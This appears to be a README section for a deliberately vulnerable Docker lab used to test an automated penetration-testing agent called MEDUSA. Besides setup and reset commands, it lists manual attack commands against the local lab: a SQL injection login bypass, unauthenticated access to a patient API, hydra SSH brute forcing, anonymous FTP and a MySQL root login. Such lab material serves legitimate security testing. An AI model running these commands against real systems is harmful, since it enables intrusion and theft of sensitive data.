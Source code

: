 ### Testing Workflow

1. **Start Lab Environment**
   ```bash
   docker-compose up -d
   ```

2. **Verify All Services**
   ```bash
   docker-compose ps
   # Ensure all show "Up" status
   ```

3. **Run MEDUSA Agent**
   ```bash
   cd ../medusa-cli
   python medusa.py --target localhost --mode assessment
   ```

4. **Monitor Activity**
   ```bash
   # Real-time logs
   docker-compose logs -f
   
   # Web log viewer
   open http://localhost:8081
   ```

5. **Review Results**
   ```bash
   # MEDUSA report
   cat medusa_assessment_report.txt
   
   # Extracted data
   ls medusa_extracted_data/
   ```

6. **Reset for Next Test**
   ```bash
   docker-compose down -v
   docker-compose up -d
   ```

### Manual Testing

Before running MEDUSA, try manual exploitation:

```bash
# SQL Injection
curl -X POST http://localhost:8080/index.php \
  -d "username=admin' OR '1'='1' --" \
  -d "password=anything"

# Unauthenticated API access
curl http://localhost:3000/api/patients

# SSH brute force
hydra -l admin -P passwords.txt ssh://localhost:2222

# FTP anonymous access
ftp localhost 21
# User: anonymous, Password: (blank)

# Database access
mysql -h localhost -P 3306 -u root -padmin123
```

---